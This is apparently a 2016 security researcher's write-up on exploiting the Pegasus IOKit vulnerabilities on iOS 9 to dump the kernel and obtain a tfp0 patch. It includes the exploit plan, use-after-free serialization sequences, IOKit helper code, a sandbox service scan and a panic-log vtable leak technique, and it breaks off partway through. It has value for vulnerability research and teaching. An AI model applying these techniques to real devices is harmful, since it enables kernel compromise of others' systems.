



*Siguza, 25. Dec 2016*

# tfp0 powered by Pegasus

Make Userland Great Again!

## Introduction

On October 4th, [@jndok](https://twitter.com/jndok) did an amazing writeup on [how to exploit the Pegasus vulnerabilities on OS X](https://jndok.github.io/2016/10/04/pegasus-writeup/).  
Shortly after that I started working on a tool to exploit them on iOS, in order to add the tfp0 kernel patch that has been missing from Pangu's 9.0 and 9.2-9.3.3 jailbreaks. On December 4th, my tool had advanced enough for me to release [a proof of concept video](https://twitter.com/s1guza/status/805463734739173376), it was still far from complete. I intended to bring it to full compatibility with as many devices and OS versions as possible, but shortly after my PoC, [@qwertyoruiopz](https://twitter.com/qwertyoruiopz) released a [web-based reimplementation of the 9.2-9.3.3 jailbreak](https://jbme.qwertyoruiop.com/), which *does* have a tfp0 patch. Apparently I've also missed some ongoing efforts by [Simone Ferrini](https://github.com/sferrini)/[Benjamin Randazzo](https://github.com/benjamin-42)/[@angelXwind](https://twitter.com/angelXwind) to [create a 32-bit jailbreak](https://github.com/benjamin-42/Trident) based on these vulnerabilities. And on December 15th [Ian Beer killed it (once again) with his partial 10.1.1 jailbreak](https://bugs.chromium.org/p/project-zero/issues/detail?id=965#c2), which qwertyoruiopz is now [turning into a full one](https://yalu.qwertyoruiop.com/), probably diverting everyone's attention away from iOS 9 for good.  
Of course huge props to all of them, but that kind of abolishes the need for an iOS 9 tfp0 patch. In light of that, I'm going to release my tool in an unfinished state and instead focus on this writeup.

So, here's my demonstration of how to use the Pegasus vulnerabilities to dump, exploit and patch an iOS kernel in a way that can be done from within the sandbox and with only publicly available knowledge (i.e. no kernel dumps required).  
I'm gonna leave it at applying the tfp0 patch here, but turning this into a full jailbreak should then be as "simple" as installing more patches to the kernel and other parts of the system, using tfp0 + the Mach APIs... it's just gonna be a whole lot of work.

Now, If you haven't already, I heavily suggest reading [jndok's writeup](https://jndok.github.io/2016/10/04/pegasus-writeup/) before continuing here.  
The following are assumed to be well known/understood, and are explained in detail in his writeup:

- the OSSerializeBinary data format
- how the kernel slide info leak works
- how the UaF can be used to gain PC control

Note: This project included a lot of "firsts" for me. I've never before: done ROP, played with IOKit, MIG or the kernel heap, etc, etc. As such it might be that this writeup contains some misconceptions or stuff that could be done a lot easier, faster or safer.  
If you spot anything like that, **please let me know** (via [GitHub issues](https://github.com/Siguza/cl0ver/issues), [Twitter](https://twitter.com/s1guza), Email (`*@*.net` where `* = siguza`), or whatever).  
Also please don't hesitate to contact me if there's something you don't understand, of if you'd like more details on something.

For the record, I've worked this up on an iPhone SE (iPhone8,4/N69AP) on 9.3.3/13G34 and an iPod touch 5G (iPod5,1/N78AP) on 9.3.2/ with only information and tools that are publicly available (not as an exercise for myself, but because I didn't have anything else, lol).

## Exploitation overview

Let's first look at what jndok does on OS X:

- `mmap()` the kernel from `/System/Library/Kernels/kernel`
- Leak the kernel slide
- Use kernel + slide to build ROP chain
- Use UaF with fake vtable to execute ROP chain
- ROP chain escalates privileges to root

That first step is gonna be a problem because on iOS <10, kernels are encrypted. There's two ways around that:

- Get decrypted kernels and hardcode stuff
- Dump the kernel at runtime

Hardcoding stuff is ugly and there are hardly any decryption keys available for 64-bit devices (although nice work on that iPhone6,1, [@xerub](https://twitter.com/xerub)), therefore the former doesn't seem like such a viable option. Without finding another exploit that allows us to dump the kernel, and without any friends ~~willing~~ capable of providing us with dumped/decrypted kernels, what can we do?  
Well, we can corrupt a string. ;)  

Let's assume for a moment that we can get the kernel to still treat our corrupted string as an instance of `OSString` - then we merely need to change its buffer pointer to wherever we choose, and we can read back arbitrary kernel memory by calling `IORegistryEntryGetProperty` on that property. We're gonna be restricted by the maximum MIG message size so we'll have to do it in chunks, but we can effectively dump the entire kernel this way!  
Now back to our assumption: How do we make the kernel treat our corrupted string still as an `OSString`? By setting the string's vtable to the actual `OSString` vtable. In order to be able to do that, we're gonna need to learn its address by some other means though.

So how do we gain knowledge of that address?  
Note that vtables are stored in the `__DATA.__const` section, so once we know our vtab's offset from the kernel base as well as the kernel slide, we're all set.  
Unfortunately, as far as I'm aware the vtable pointer *cannot* be obtained at runtime (through the Pegasus vulnerabilities and without prior knowledge, that is). But it's only a single value, so hardcoding it is a lot more reasonable. Obtaining it once would be enough then.  
Let's see what we can come up with:

- For most (but not all) 32-bit devices (and specifically the 6,1 model of the iPhone 5s) there will likely be [decryption keys](https://www.theiphonewiki.com/wiki/Firmware_Keys/9.x) available.
- For all 64-bit devices except the iPhone 5s, there are no keys publicly available whatsoever, so we need an actual leak. For values that fit into a single register (such as a vtable address), panic logs can sometimes be abused for that. And it turns out that, if played well, this is one of those cases (exclusive to 64-bit though).
- For the few remaining devices (iPad2,4, iPod5,1 and (for iOS >=9.3) iPad3,4-iPad3,6), neither of the above will work. The vtable leak doesn't work on 32-bit, but we can panic-log some other stuff that, as it turns out, together with decrypted kernels for other devices yields enough information to guess the vtable address.

(Note: My iPhone SE and iPod touch 5G fell into the latter two categories.)

At this point we've conceptually taken care of the first point on jndok's list. So what else is there?

We want to install a kernel patch to allow for tfp0, so we obviously need to add that to the list. Installing a kernel patch through ROP sounds unnecessarily complicated to me though, so let's use ROP to merely *retrieve* the kernel task first without any patch, and then use the Mach APIs on the kernel to put the actual patch in place. And since we're doing that using only methods accessible from within the sandbox, we can skip privilege escalation entirely.

Now, at last we have an idea what we want our process to look like:

- Obtain the `OSString` vtable pointer once somehow, then hardcode it
- Leak the kernel slide
- Use UaF with valid vtable to read arbitrary memory/dump the kernel
- Use kernel + slide to build ROP chain
- Use UaF with fake vtable to execute ROP chain
- ROP chain makes `kernel_task` available userland
- Use `kernel_task` to install kernel patches

With that laid out, let's look at the details.

## Preparations

Before we can actually get to pwning, we need to set up a few things.

#### Setting up the build environment

The Pegasus vulnerabilities are within IOKit, so linking against the IOKit framework is advisable. Apple's iOS SDK doesn't come with IOKit headers (anymore?), so we need to get them from elsewhere. We could copy them in from the [IOKitUser source](https://opensource.apple.com/source/IOKitUser/IOKitUser-1179.50.2/)... or we could use those of OS X.  
For that we create a local `./include` directory that we later pass to the compiler with `-I./include`, and to where we simply symlink the IOKit header directory:

    ln -s /System/Library/Frameworks/IOKit.framework/Headers ./include/IOKit

We also use some IOKit MIG functions, which are perfectly available on 32-bit (`iokitmig.h`) but private (non-exported) on 64-bit.  
We _could_ write a 32-bit binary able to exploit both a 32-bit and 64-bit kernel, but having the same data types and sizes as the kernel is just so much more convenient. And after all, generating the MIG routines yourself and statically linking against them turns out to be simple enough. I found very little info on this on the web though, so here's the process in detail:

There's a `mig` utility to create C source files from .defs, in the case of the IOKit MIG functions, `xnu/osfmk/device/device.defs`.  
We run it as `xcrun -sdk iphoneos mig` to get the iOS environment and add `-arch arm64` to set the correct target architecture (I'm not sure whether the generated C code differs at all between architectures, but at some point it *might*, so I'm trying to do this the correct way). Examining the file, we can also see that if the `IOKIT` macro is not defined, we get hardly anything, so we're gonna add a `-DIOKIT` to our flags. Lastly, we need some other .defs files to be included but we can't specify `xnu/osfmk` as an include directory because it contains some files that will `#error` when the architecture is neither i386 nor x86_64, so we symlink the following files (from `xnu/osfmk`) to our local `./include` directory:

    mach/clock_types.defs
    mach/mach_types.defs
    mach/std_types.defs
    mach/machine/machine_types.defs

Finally we can run:

    xcrun -sdk iphoneos mig \
    -arch arm64 \
    -DIOKIT \
    -I./include \
    xnu/osfmk/device/device.defs

This will generate three files:

    iokit.h
    iokitServer.c
    iokitUser.c

Including `iokit.h` and `iokitUser.c` in our program will provide us with the full set of IOKit MIG functions. `iokitServer.c` isn't needed as such, but it can still serve as a good reference to understand how exactly the kernel passes our MIG calls to its `is_io_*` functions.

(In my actual implementation I used `/usr/include` instead of `xnu/osfmk` because I can't assert people to have the XNU source available in a predefined location, but that might stop working when XNU changes enough.)

Now we're fully equipped to play with IOKit on both armv7 and arm64! :D

#### Recap: IOKit, data structures and the info leak

Without further ado, a quick recap/reference on some key points:

-   Constants:

        enum
        {
            kOSSerializeDictionary      = 0x01000000U,
            kOSSerializeArray           = 0x02000000U,
            kOSSerializeSet             = 0x03000000U,
            kOSSerializeNumber          = 0x04000000U,
            kOSSerializeSymbol          = 0x08000000U,
            kOSSerializeString          = 0x09000000U,
            kOSSerializeData            = 0x0a000000U,
            kOSSerializeBoolean         = 0x0b000000U,
            kOSSerializeObject          = 0x0c000000U,

            kOSSerializeTypeMask        = 0x7F000000U,
            kOSSerializeDataMask        = 0x00FFFFFFU,

            kOSSerializeEndCollection   = 0x80000000U,

            kOSSerializeMagic           = 0x000000d3U,  // My creation, equivalent to "\323\0\0"
        };

        enum
        {
            kOSStringNoCopy = 0x00000001,               // For OSString.flags
        };

-   `OSString` in C terms:

        typedef struct
        {
            void      ** vtab;          // C++,      for virtual function calls
            int          retainCount;   // OSObject, for reference counting
            unsigned int flags;         // OSString, for managed/unmanaged string buffer
            unsigned int length;        // OSString, string buffer length
            const char * string;        // OSString, string buffer address
        } OSString;

    Concrete memory layout:

        typedef struct
        {
            uint32_t vtab;
            uint32_t retainCount;
            uint32_t flags;
            uint32_t length;
            uint32_t string;
        } OSString32;
        // sizeof(OSString32) == 20

        typedef struct
        {
            uint32_t vtab_lo;
            uint32_t vtab_hi;
            uint32_t retainCount;
            uint32_t flags;
            uint32_t length;
            uint32_t padding;   // <-- note
            uint32_t string_lo;
            uint32_t string_hi;
        } OSString64;
        // sizeof(OSString64) == 32

-   Which data structure goes to which kalloc zone:

    | Type       | 32-bit    | 64-bit    |
    |:-----------|:---------:|:---------:|
    | `OSData`   | kalloc.32 | kalloc.48 |
    | `OSString` | kalloc.24 | kalloc.32 |
    | `OSSymbol` | kalloc.24 | kalloc.48 |

-   The first method called on any `kOSSerializeObject` is `retain()`, which is the 5th entry in the vtable (i.e. `vtab[4]`).

-   The kernel slide info leak can be copied from jndok's code with only minor changes.
    One can figure out which values are gonna be of use and what their unslid equivalents are like this:

    - Read some 200 bytes off the kernel stack repeatedly and check for values that start with `ffffff80` and don't change between invocations (unless you reboot).
    - Write that value down somewhere, then cause a kernel panic (e.g. by trying to read 4096 bytes off the stack). Obtain the kernel slide from the panic log and subtract it from the value you wrote down. Done.

    On x86_64 it was `buf[7]` that held a useful address, on armv7 it's `buf[9]`, on arm64 it's `buf[1]`.

    *The full implementation of this can be found in [`slide.c`](https://github.com/Siguza/cl0ver/blob/master/src/lib/slide.c).*

-   Feeding XML/binary dicts to IOKit and reading values back works roughly like this (omitted error handling):

        void io_get_prop(char *serviceName, void *dict, size_t dictlen, char *key, void *buf, uint32_t *buflen)
        {
            mach_port_t master;
            io_service_t service;
            io_connect_t client;
            kern_return_t err;
            io_iterator_t it;

            host_get_io_master(mach_host_self(), &master);
            service = IOServiceGetMatchingService(master, IOServiceMatching(serviceName));
            io_service_open_extended(service, mach_task_self(), 0, NDR_record, dict, dictlen, &err, &client);
            IORegistryEntryCreateIterator(service, "IOService", kIORegistryIterateRecursively, &it);
            IORegistryEntryGetProperty(IOIteratorNext(it), key, buf, buflen);
            IOServiceClose(client);
        }

    Note that the first element of the iterator isn't necessarily the one you're looking for (likeliness of this happening depends on `serviceName` - but you shouldn't rely on it). So mark your dicts with something identifiable, e.g. your username as a key somewhere, and always iterate over all elements in the registry.

    *The full implementation of this can be found in [`io.c`](https://github.com/Siguza/cl0ver/blob/master/src/lib/io.c).*

    Also note that the choice of `serviceName` is critical - only a subset of all services allow access from within the sandbox, and only very few of those allow the retrieving of property bytes.  
    I wrote a little tool that iterates over all possible service names I could find (`strings - kernel | grep 'UserClient$'`) and prints whether:

    - The service is valid (`IOServiceGetMatchingService` returns success)
    - The service is accessible (`io_service_open_extended` returns success)
    - Property bytes can be read back on `OSString`s and `OSNumber`s

    Running it inside the sandbox in an unjailbroken environment (you'll have to pack it into an App for that), we get:

    iPhone8,4 on 9.3.3:

        Service name                                                    Valid       Spawn               num str

        AGXShared                                                       ---         ---                   0 ---
        ASP                                                             ---         ---                   0 ---
        AppleARMIIC                                                     ---         ---                   0 ---
        AppleAVE                                                        ---         ---                   0 ---
        AppleAuthCP                                                     ---         ---                   0 ---
        AppleBCMWLAN                                                    ---         ---                   0 ---
        AppleBaseband                                                   yes         ---                   0 ---
        AppleBiometricServices                                          yes         ---                   0 ---
        AppleCredentialManager                                          yes         ---                   0 ---
        AppleD5500                                                      yes         ---                   0 ---
        AppleEffaceableStorage                                          yes         ---                   0 ---
        AppleEmbeddedPCIE                                               yes         ---                   0 ---
        AppleH2CamIn                                                    ---         ---                   0 ---
        AppleH3CamIn                                                    ---         ---                   0 ---
        AppleH4CamIn                                                    ---         ---                   0 ---
        AppleH6CamIn                                                    yes         ---                   0 ---
        AppleHDQGasGaugeControl                                         yes         ---                   0 ---
        AppleIPAppender                                                 yes         ---                   0 ---
        AppleJPEGDriver                                                 yes         yes    6969696969696969 abc
        AppleKeyStore                                                   yes         yes    6969696969696969 abc
        AppleMobileApNonce                                              yes         ---                   0 ---
        AppleMobileFileIntegrity                                        yes         yes    6969696969696969 abc
        AppleMultitouchSPI                                              yes         ---                   0 ---
        AppleNANDFTL                                                    ---         ---                   0 ---
        AppleNVMeSMART                                                  ---         ---                   0 ---
        AppleOscarCMA                                                   ---         ---                   0 ---
        AppleOscar                                                      ---         ---                   0 ---
        ApplePMGRTemp                                                   ---         ---                   0 ---
        AppleSEP                                                        ---         ---                   0 ---
        AppleSPUHIDDevice                                               yes         yes    6969696969696969 abc
        AppleSPUHIDDriver                                               yes         ---                   0 ---
        AppleSPUProfileDriver                                           ---         ---                   0 ---
        AppleSPU                                                        ---         ---                   0 ---
        AppleSRSDriver                                                  ---         ---                   0 ---
        AppleSSE                                                        yes         ---                   0 ---
        AppleSmartIO                                                    yes         ---                   0 ---
        AppleStockholmControl                                           yes         ---                   0 ---
        AppleT700XTempSensor                                            yes         ---                   0 ---
        AppleTempSensor                                                 ---         ---                   0 ---
        AppleUSBHostDevice                                              ---         ---                   0 ---
        AppleUSBHostInterface                                           ---         ---                   0 ---
        AppleUSBHost                                                    ---         ---                   0 ---
        AppleVXD375                                                     ---         ---                   0 ---
        AppleVXD390                                                     ---         ---                   0 ---
        AppleVXD393                                                     ---         ---                   0 ---
        AppleVXE380                                                     ---         ---                   0 ---
        CCDataPipe                                                      yes         ---                   0 ---
        CCLogPipe                                                       yes         ---                   0 ---
        CCPipe                                                          yes         ---                   0 ---
        CoreCapture                                                     ---         ---                   0 ---
        EffacingMediaFilter                                             ---         ---                   0 ---
        EncryptedMediaFilter                                            ---         ---                   0 ---
        H3H264VideoEncoderDriver                                        ---         ---                   0 ---
        IOAESAccelerator                                                yes         ---                   0 ---
        IOAVAudioInterface                                              ---         ---                   0 ---
        IOAVCECControlInterface                                         ---         ---                   0 ---
        IOAVController                                                  ---         ---                   0 ---
        IOAVDevice                                                      ---         ---                   0 ---
        IOAVInterface                                                   ---         ---                   0 ---
        IOAVService                                                     ---         ---                   0 ---
        IOAVVideoInterface                                              ---         ---                   0 ---
        IOAccelMemoryInfo                                               ---         ---                   0 ---
        IOAccelRestart                                                  ---         ---                   0 ---
        IOAccelShared                                                   ---         ---                   0 ---
        IOAccessoryEAInterface                                          ---         ---                   0 ---
        IOAccessoryIDBus                                                ---         ---                   0 ---
        IOAccessoryManager                                              yes         ---                   0 ---
        IOAccessoryPort                                                 yes         ---                   0 ---
        IOAudio2Device                                                  yes         ---                   0 ---
        IOAudio2Transformer                                             ---         ---                   0 ---
        IOAudioCodecs                                                   yes         ---                   0 ---
        IOCEC                                                           ---         ---                   0 ---
        IODPAudioInterface                                              ---         ---                   0 ---
        IODPController                                                  ---         ---                   0 ---
        IODPDevice                                                      ---         ---                   0 ---
        IODPDisplayInterface                                            ---         ---                   0 ---
        IODPService                                                     ---         ---                   0 ---
        IOHDIXController                                                yes         ---                   0 ---
        IOHIDEventService                                               yes         ---                   0 ---
        IOHIDLib                                                        ---         ---                   0 ---
        IOHIDResourceDevice                                             ---         ---                   0 ---
        IOMikeyBusBulkPipe                                              ---         ---                   0 ---
        IOMikeyBusDevice                                                ---         ---                   0 ---
        IOMikeyBusFunctionGroup                                         ---         ---                   0 ---
        IOMobileFramebuffer                                             yes         yes                   0 ---
        IONetworkStack                                                  yes         ---                   0 ---
        IONetwork                                                       ---         ---                   0 ---
        IOPKEAccelerator                                                ---         ---                   0 ---
        IOPRNGAccelerator                                               ---         ---                   0 ---
        IOReport                                                        ---         ---                   0 ---
        IOSHA1Accelerator                                               ---         ---                   0 ---
        IOStreamAudio                                                   ---         ---                   0 ---
        IOStream                                                        ---         ---                   0 ---
        IOSurfaceRoot                                                   yes         yes                   0 ---
        IOUSBDeviceInterface                                            yes         ---                   0 ---
        IOUserEthernetResource                                          yes         ---                   0 ---
        KDIDiskImageNub                                                 ---         ---                   0 ---
        LwVM                                                            ---         ---                   0 ---
        ProvInfoIOKit                                                   yes         ---                   0 ---
        RTBuddyLoader                                                   ---         ---                   0 ---
        RTBuddy                                                         yes         ---                   0 ---
        RootDomain                                                      ---         ---                   0 ---
        com_apple_audio_IOBorealisOwl                                   yes         ---                   0 ---
        com_apple_driver_FairPlayIOKit                                  yes         ---                   0 ---
        com_apple_driver_KeyDeliveryIOKit                               yes         ---                   0 ---
        mDNSOffload                                                     ---         ---                   0 ---
        wlDNSOffload                                                    ---         ---                   0 ---

    iPod5,1 on 9.3.2:

        Service name                                                    Valid       Spawn               num str

        AGXShared                                                       ---         ---                   0 ---
        ASP                                                             ---         ---                   0 ---
        AppleARMIIC                                                     ---         ---                   0 ---
        AppleAVE                                                        ---         ---                   0 ---
        AppleAuthCP                                                     ---         ---                   0 ---
        AppleBCMWLAN                                                    ---         ---                   0 ---
        AppleBaseband                                                   ---         ---                   0 ---
        AppleBiometricServices                                          ---         ---                   0 ---
        AppleCredentialManager                                          yes         ---                   0 ---
        AppleD5500                                                      ---         ---                   0 ---
        AppleEffaceableStorage                                          yes         ---                   0 ---
        AppleEmbeddedPCIE                                               ---         ---                   0 ---
        AppleH2CamIn                                                    ---         ---                   0 ---
        AppleH3CamIn                                                    ---         ---                   0 ---
        AppleH4CamIn                                                    yes         ---                   0 ---
        AppleH6CamIn                                                    ---         ---                   0 ---
        AppleHDQGasGaugeControl                                         ---         ---                   0 ---
        AppleIPAppender                                                 ---         ---                   0 ---
        AppleJPEGDriver                                                 yes         yes    6969696969696969 abc
        AppleKeyStore                                                   yes         yes    6969696969696969 abc
        AppleMobileApNonce                                              yes         ---                   0 ---
        AppleMobileFileIntegrity                                        yes         yes    6969696969696969 abc
        AppleMultitouchSPI                                              yes         ---                   0 ---
        AppleNANDFTL                                                    yes         ---                   0 ---
        AppleNVMeSMART                                                  ---         ---                   0 ---
        AppleOscarCMA                                                   ---         ---                   0 ---
        AppleOscar                                                      ---         ---                   0 ---
        ApplePMGRTemp                                                   ---         ---                   0 ---
        AppleSEP                                                        ---         ---                   0 ---
        AppleSPUHIDDevice                                               ---         ---                   0 ---
        AppleSPUHIDDriver                                               ---         ---                   0 ---
        AppleSPUProfileDriver                                           ---         ---                   0 ---
        AppleSPU                                                        ---         ---                   0 ---
        AppleSRSDriver                                                  ---         ---                   0 ---
        AppleSSE                                                        ---         ---                   0 ---
        AppleSmartIO                                                    ---         ---                   0 ---
        AppleStockholmControl                                           ---         ---                   0 ---
        AppleT700XTempSensor                                            ---         ---                   0 ---
        AppleTempSensor                                                 ---         ---                   0 ---
        AppleUSBHostDevice                                              ---         ---                   0 ---
        AppleUSBHostInterface                                           ---         ---                   0 ---
        AppleUSBHost                                                    ---         ---                   0 ---
        AppleVXD375                                                     ---         ---                   0 ---
        AppleVXD390                                                     yes         ---                   0 ---
        AppleVXD393                                                     ---         ---                   0 ---
        AppleVXE380                                                     ---         ---                   0 ---
        CCDataPipe                                                      yes         ---                   0 ---
        CCLogPipe                                                       yes         ---                   0 ---
        CCPipe                                                          yes         ---                   0 ---
        CoreCapture                                                     ---         ---                   0 ---
        EffacingMediaFilter                                             ---         ---                   0 ---
        EncryptedMediaFilter                                            ---         ---                   0 ---
        H3H264VideoEncoderDriver                                        ---         ---                   0 ---
        IOAESAccelerator                                                yes         ---                   0 ---
        IOAVAudioInterface                                              ---         ---                   0 ---
        IOAVCECControlInterface                                         ---         ---                   0 ---
        IOAVController                                                  yes         ---                   0 ---
        IOAVDevice                                                      ---         ---                   0 ---
        IOAVInterface                                                   ---         ---                   0 ---
        IOAVService                                                     ---         ---                   0 ---
        IOAVVideoInterface                                              ---         ---                   0 ---
        IOAccelMemoryInfo                                               ---         ---                   0 ---
        IOAccelRestart                                                  ---         ---                   0 ---
        IOAccelShared                                                   ---         ---                   0 ---
        IOAccessoryEAInterface                                          ---         ---                   0 ---
        IOAccessoryIDBus                                                ---         ---                   0 ---
        IOAccessoryManager                                              yes         ---                   0 ---
        IOAccessoryPort                                                 yes         ---                   0 ---
        IOAudio2Device                                                  yes         ---                   0 ---
        IOAudio2Transformer                                             yes         ---                   0 ---
        IOAudioCodecs                                                   yes         ---                   0 ---
        IOCEC                                                           ---         ---                   0 ---
        IODPAudioInterface                                              ---         ---                   0 ---
        IODPController                                                  yes         ---                   0 ---
        IODPDevice                                                      ---         ---                   0 ---
        IODPDisplayInterface                                            ---         ---                   0 ---
        IODPService                                                     ---         ---                   0 ---
        IOHDIXController                                                yes         ---                   0 ---
        IOHIDEventService                                               yes         ---                   0 ---
        IOHIDLib                                                        ---         ---                   0 ---
        IOHIDResourceDevice                                             ---         ---                   0 ---
        IOMikeyBusBulkPipe                                              ---         ---                   0 ---
        IOMikeyBusDevice                                                ---         ---                   0 ---
        IOMikeyBusFunctionGroup                                         ---         ---                   0 ---
        IOMobileFramebuffer                                             yes         yes                   0 ---
        IONetworkStack                                                  yes         ---                   0 ---
        IONetwork                                                       ---         ---                   0 ---
        IOPKEAccelerator                                                yes         ---                   0 ---
        IOPRNGAccelerator                                               ---         ---                   0 ---
        IOReport                                                        ---         ---                   0 ---
        IOSHA1Accelerator                                               ---         ---                   0 ---
        IOStreamAudio                                                   yes         ---                   0 ---
        IOStream                                                        ---         ---                   0 ---
        IOSurfaceRoot                                                   yes         yes                   0 ---
        IOUSBDeviceInterface                                            yes         ---                   0 ---
        IOUserEthernetResource                                          yes         ---                   0 ---
        KDIDiskImageNub                                                 ---         ---                   0 ---
        LwVM                                                            ---         ---                   0 ---
        ProvInfoIOKit                                                   yes         ---                   0 ---
        RTBuddyLoader                                                   ---         ---                   0 ---
        RTBuddy                                                         ---         ---                   0 ---
        RootDomain                                                      ---         ---                   0 ---
        com_apple_audio_IOBorealisOwl                                   ---         ---                   0 ---
        com_apple_driver_FairPlayIOKit                                  yes         ---                   0 ---
        com_apple_driver_KeyDeliveryIOKit                               yes         ---                   0 ---
        mDNSOffload                                                     ---         ---                   0 ---
        wlDNSOffload                                                    ---         ---                   0 ---

    As one can see, there are only three services matching our requirements: AppleJPEGDriver, AppleKeyStore and - behold - AppleMobileFileIntegrity. You might get more with entitlements, but we don't even need that (note: you also get a lot more outside the sandbox).  
    You can choose freely from these, but... one of them is just more fun to abuse than the others. :P

    *The implementation of this (just CLI, no GUI) can be found outside the main source, in [`cl0ver/scan/scan.c`](https://github.com/Siguza/cl0ver/blob/master/scan/scan.c).*

-   > ***Update 10. Jan 2017:***
    >
    > The original path to yield a UaF was to use an `OSString` as dictionary key, which would free it even before the next object is parsed. It turns out that this method doesn't work on all iOS versions from 9.0 through 9.3.4.  
    > The ability to use strings as keys (as opposed to symbols) was introduced somewhere between xnu-2782.40.9 and xnu-3248.20.55... so somewhere between between iOS 8.0 beta 2 and 9.2 beta 3. What I know for sure is that 9.2 and above are vulnerable, and 9.0.2 and below are not. Trying to use a string as key in those versions will make the call to `io_service_open_extended` fail with an "invalid argument" error.
    >
    > **But fear not!** There are other paths yielding a UaF!  
    > One of them is using the same key multiple times, which leads to the value previously assigned to that key getting freed. (This was disabled somewhere between xnu-3248.20.55 and xnu-3248.60.10 (after 9.2 beta 1), but has been enabled again in xnu-3789.1.32).
    >
    > Basically all you have to do is, for versions not vulnerable to this:
    >
    >     kOSSerializeString,     // string that'll get freed
    >     // ...
    >     kOSSerializeData,       // data that replaces the string
    >     // ...
    >
    >     kOSSerializeSymbol,
    >     // ...
    >     kOSSerializeObject | 1, // reference to overwritten string
    >
    > You do this:
    >
    >     kOSSerializeSymbol,     // some name
    >     // ...
    >     kOSSerializeString,     // string that'll get freed
    >     // ...
    >
    >     kOSSerializeObject | 1, // same name as above
    >     kOSSerializeBoolean,    // just any value
    >
    >     kOSSerializeObject | 1, // same name again
    >     kOSSerializeData,       // data that replaces the string
    >     // ...
    >
    >     kOSSerializeSymbol,
    >     // ...
    >     kOSSerializeObject | 2, // reference to overwritten string
    >
    > So, game on! :D

## Part One: Obtaining the OSString vtable address

All of `OSData`, `OSString` and `OSSymbol` contain both a buffer pointer and length field, which we could abuse together with `IORegistryEntryGetProperty` to retrieve arbitrary kernel memory. So in theory, we could overwrite our freed `OSString` to mimic any of these. However:

- The 64-bit panic leak works by far best with the `OSString` class.
- An `OSString` is the best fit for reallocation over another freed `OSString`, the other two are larger.
- `OSString`

So the `OSString` vtable it the one of choice. Now let's look at how to get it.

#### The good: decrypted kernels

If [keys are available](https://www.theiphonewiki.com/wiki/Firmware_Keys/9.x), we can just grab the kernelcache from our IPSW, run it through [`xpwntool(-lite)`](https://github.com/sektioneins/xpwntool-lite) and [`lzssdec`](http://nah6.com/~itsme/cvs-xdadevtools/iphone/tools/lzssdec.cpp), and we've got the raw kernel binary.  
Since decrypted kernels are symbolicated, we merely have to search its symbol table for `__ZTV8OSString` (symbols starting with `__ZTV` are vtables):

    $ nm kernel | grep __ZTV8OSString
    803ece8c S __ZTV8OSString           # iPhone4,1 9.3.3
    803f4e8c S __ZTV8OSString           # iPhone5,4 9.3.3
    ffffff80044ef1e0 S __ZTV8OSString   # iPhone6,1 9.3.3

As one can see with a hex viewer (I'm using [`radare2`](https://github.com/radare/radare2) here), however (first column is offsets, rest is data):

    $ r2 -c '0x803f4e8c; xw 32' -q iPhone5,4/kernel 2>/dev/null
    0x803f4e8c  0x00000000 0x00000000 0x80321591 0x80321599  ..........2...2.
    0x803f4e9c  0x8030d605 0x8030d4a5 0x8030d5fd 0x8030d5f5  ..0...0...0...0.

<!-- -->

    $ r2 -c '0xffffff80044ef1e0; xq 64' -q iPhone6,1/kernel 2>/dev/null
    0xffffff80044ef1e0  0x0000000000000000  0x0000000000000000   ................
    0xffffff80044ef1f0  0xffffff80043ea7c4  0xffffff80043ea7d0   ..>.......>.....
    0xffffff80044ef200  0xffffff80043cea00  0xffffff80043ce864   ..<.....d.<.....
    0xffffff80044ef210  0xffffff80043ce9f0  0xffffff80043ce9e0   ..<.......<.....

There are two machine words before the actual vtable, so the real address we're looking for is at offset `2 * sizeof(void*)` from the `__ZTV...` address.

#### The bad: panic logs

I stumbled across this method by accident while trying to play with `OSString`s while they were freed (which won't work due to heap poisoning).  
Anyway, here are a few raw facts:

- The first machine word of a C++ object is (interpreted as) a pointer to its vtable.
- The first machine word of a node in the freelist is a pointer to the next node in the freelist.
- Pages (i.e. chunks of *contiguous memory*) are allocated as a whole into a kalloc zone.
- `retain()` is the 5th element in the vtable.
- (arm64) The 5th element in an array of pointers is at an offset of 32 bytes.
- (arm64) `OSString`s are 32 bytes wide.

See what I'm getting at? :P  
Here's a visualization:

Now what happens when `retain()` is called on an OSString that was freed, but not yet reallocated?  
In other words, what happens when we *combine* the above?

So what used to be our object's vtable pointer is now a pointer to the next node in the freelist. And what is treated as a pointer to `retain()` is the value just out of bounds of that next node.  
Now, is there any way of predicting what value that area of memory is gonna hold?

- If our (freed) object occupies the last 32 bytes on a memory page, the adjacent memory could hold anything or be unmapped. We have no way of telling, which makes this case pretty useless to us. But since, on arm64, memory pages are 16 kB, the chance of that happening in the kalloc.32 zone are 1 in 512. In the other 511 cases we're still within the same memory page, which means still in kalloc.32-managed memory, so the adjacent memory can only be a 32-byte chunk that is either allocated or free.
- If it is free, then it's only gonna hold a pointer to the next node in the freelist and some `0xdeadbeef`. Again useless to us.
- If it is allocated, it could in theory hold anything... but if it's another `OSString` for example, then a call to `retain()` on our original freed object is going to load the first 8 bytes of this object, which happen to be the address of the `OSString` vtable, and it will try to branch to that address. And since that address lies within a non-executable segment, this is gonna lead to a "Kernel instruction fetch abort" panic, creating a panic log with the `OSString` vtable address in `pc`. At last, something that sounds useful.

Now that we know what *could* be there, how can we *make that happen*? How can we arrange for our freed `OSString` to lie next to another `OSString`?  
